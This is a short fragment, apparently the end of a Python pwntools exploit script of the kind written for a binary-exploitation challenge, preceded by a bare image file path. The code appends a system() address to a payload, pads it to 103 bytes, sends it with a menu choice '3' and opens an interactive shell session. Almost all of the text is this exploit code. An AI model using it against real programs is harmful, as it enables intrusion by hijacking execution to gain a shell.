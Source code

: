 ```python
payload += p64(system_addr)
payload = payload.ljust(103, 'A')
# p.writeline(util.cyclic.cyclic(length=103))
p.writeline(payload)
p.writeline('3')

p.interactive()
```